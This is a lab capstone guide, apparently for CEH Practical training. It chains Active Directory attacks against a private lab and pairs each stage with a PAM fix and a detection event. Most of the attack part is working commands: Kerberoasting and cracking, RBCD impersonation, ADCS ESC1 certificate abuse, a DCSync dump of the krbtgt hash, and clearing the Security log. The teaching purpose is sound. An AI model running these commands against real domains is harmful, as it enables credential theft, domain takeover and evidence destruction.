

# Capstone — Full Attack Chain Against the AD/PAM Lab

> Chains the modules into one end-to-end engagement against **your own lab** ([topology](topology.md)) — the way the CEH Practical and real assessments test you. Every stage ends with the **PAM fix**: apply it, re-run, and watch the "win" become a logged, contained "loss." **Lab only.**

**Targets:** Kali `192.168.56.10` · DC/CA `dc01` `192.168.56.30` (`ceh.lab`) · member `ws01` `192.168.56.31`. Provision with [`ansible/ad-lab.yml`](ansible/ad-lab.yml).



Foothold: start as the low-priv user **`jdoe`** (credential given for the exercise, as in an assumed-breach test).

---

## Stage 1 — Recon & Enumeration (M02 / M04)
```bash
nmap -sV -p88,135,139,389,445,636,3268,5985 192.168.56.30
enum4linux-ng -A 192.168.56.30
nxc smb 192.168.56.30 -u jdoe -p 'Passw0rd!' --users --groups
nxc ldap 192.168.56.30 -u jdoe -p 'Passw0rd!' --bloodhound -c all --dns-server 192.168.56.30
```
**Get:** domain users, groups, the `svc-sql` SPN, and a BloodHound graph. **Look for:** `jdoe`'s `GenericWrite` on `ws01`, `ws01` unconstrained-delegation flag, and the SPN account — the paths the lab planted.
> **Fix to note:** restrict directory read scope; DAI/least-privilege recon detection.

## Stage 2 — Kerberoast `svc-sql`, prove gMSA is immune (M06)
```bash
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request -outputfile kerb.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt      # svc-sql cracks
impacket-GetUserSPNs ceh.lab/jdoe:'Passw0rd!' -dc-ip 192.168.56.30 -request-user gmsa-web
```
**Observe:** `svc-sql` cracks; the **gMSA** (`gmsa-web`) returns a ticket you **cannot** crack.
> **Fix (already shown):** convert SPN accounts to **gMSA** / CPM-rotated passwords, AES-only. Detection: `4769` RC4 for SPNs.

## Stage 3 — Delegation abuse via RBCD (identity paths)
`jdoe` has `GenericWrite` on `ws01`, so set resource-based constrained delegation and impersonate:
```bash
impacket-rbcd ceh.lab/jdoe:'Passw0rd!' -delegate-to 'ws01$' -action write -dc-ip 192.168.56.30 -use-sid <attacker_computer_sid>
impacket-getST ceh.lab/<attacker_machine>:'<pw>' -spn cifs/ws01.ceh.lab -impersonate Administrator -dc-ip 192.168.56.30
```
**Observe:** you mint a service ticket **as Administrator to `ws01`** → lateral movement.
> **Fix:** remove write on computer attributes for low-priv users; tier admin; monitor `5136` on `msDS-AllowedToActOnBehalfOfOtherIdentity`.

## Stage 4 — ADCS ESC1 → domain privilege (identity paths)
```bash
certipy find -u jdoe@ceh.lab -p 'Passw0rd!' -dc-ip 192.168.56.30 -vulnerable -stdout
certipy req -u jdoe@ceh.lab -p 'Passw0rd!' -ca <CA-name> -template ESC1-Vuln -upn administrator@ceh.lab -dc-ip 192.168.56.30
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.30          # -> TGT / NT hash as Administrator
```
**Observe:** a low-priv user requests a cert **as Administrator** and authenticates with it — persistence that **survives password rotation**.
> **Fix:** remove the SAN-supply flag, require manager approval, tighten template + CA ACLs. `certipy find` in audit mode proves the fix.

## Stage 5 — DCSync (M06)
With domain privilege obtained above:
```bash
impacket-secretsdump ceh.lab/administrator@192.168.56.30 -just-dc-user krbtgt
```
**Observe:** you pull the **krbtgt** hash → golden-ticket capable = full domain dominance.
> **Fix:** replication rights only on DCs; Tier 0 isolation; **rotate krbtgt twice** after any DA compromise. Detection: `4662` replication from a non-DC.

## Stage 6 — Cover tracks (M06) & the defender's view
```powershell
wevtutil cl Security    # anti-forensics (generates event 1102 — which you should be alerting on)
```
**Observe:** clearing logs is itself a high-signal event. This is where **PTA/UEBA + tamper-evident Vault audit** (Modules 06/12) catch what host logs no longer show.

---

## Debrief — the whole chain, and what breaks it
| Stage | Attack | The one control that would have stopped it |
|---|---|---|
| 2 | Kerberoast | gMSA / CPM-rotated service password |
| 3 | RBCD delegation | Least-privilege on computer-object writes + tiering |
| 4 | ADCS ESC1 | Template/CA hardening (no SAN supply, approval) |
| 5 | DCSync | Replication rights locked to DCs; Tier 0 isolation |
| 1–6 | The whole path | **No standing privilege (JIT) + brokered, recorded access** |

**Do it twice:** once with the lab's planted weaknesses (you win), once after applying the fixes above (you're stopped and logged). That contrast *is* the learning. Full mapping: [`../defender-pam/identity-attack-paths.md`](../defender-pam/identity-attack-paths.md) · [`../defender-pam/detection-engineering.md`](../defender-pam/detection-engineering.md).

## Sources
- The Hacker Recipes — AD: https://www.thehacker.recipes/ad/
- SpecterOps — Certified Pre-Owned (ADCS): https://posts.specterops.io/certified-pre-owned-d95910965cd2
- Certipy: https://github.com/ly4k/Certipy · Impacket: https://github.com/fortra/impacket
- BloodHound: https://bloodhound.readthedocs.io/
